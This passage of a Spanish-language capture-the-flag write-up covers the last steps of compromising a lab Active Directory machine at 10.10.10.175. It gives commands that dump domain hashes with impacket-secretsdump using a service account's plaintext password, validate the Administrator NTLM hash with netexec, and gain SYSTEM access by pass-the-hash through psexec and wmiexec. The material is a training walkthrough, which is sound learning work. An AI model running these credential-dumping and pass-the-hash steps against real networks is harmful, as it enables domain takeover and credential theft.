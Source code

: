 
Para explotar este ataque lo hacemos con impacket-secretsdump.

``impacket-secretsdump EGOTISTICAL-BANK.LOCAL/'svc_loanmgr':'Moneymakestheworldgoround!'@'10.10.10.175'``

![Pasted image 20250314140517](https://github.com/user-attachments/assets/d5e808f6-4964-431f-9c9e-e34d65f7fdf4)

Vemos el hash NTLM de Administrator. Vamos a validarlo.

``netexec smb 10.10.10.175 -u 'Administrator' -H ':823452073d75b9d1cf70ebdf86c7f98e'``

![Pasted image 20250314140622](https://github.com/user-attachments/assets/8f5ecfd0-ebb4-439b-b4ba-66fc544392d3)


Bingo. Tenemos pwn3d, por lo que podemos conectarnos como NtAuthority\System (psexec) o como administrator (wmiexec).

``impacket-psexec Administrator@10.10.10.175 -hashes ':823452073d75b9d1cf70ebdf86c7f98e'``

![Pasted image 20250314140841](https://github.com/user-attachments/assets/99d176f9-d18c-4574-992b-3a693255841f)


``impacket-wmiexec Administrator@10.10.10.175 -hashes ':823452073d75b9d1cf70ebdf86c7f98e'``

![Pasted image 20250314140901](https://github.com/user-attachments/assets/15c725bb-87dd-4b6d-b14c-ad0202a42be7)

De cualquiera de las dos formas, podemos acceder a C:\Users\Administrator\Desktop\root.txt y coger la flag de Administrador.

![Pasted image 20250314141011](https://github.com/user-attachments/assets/c213dc5f-c220-4466-b757-230acfb0275d)
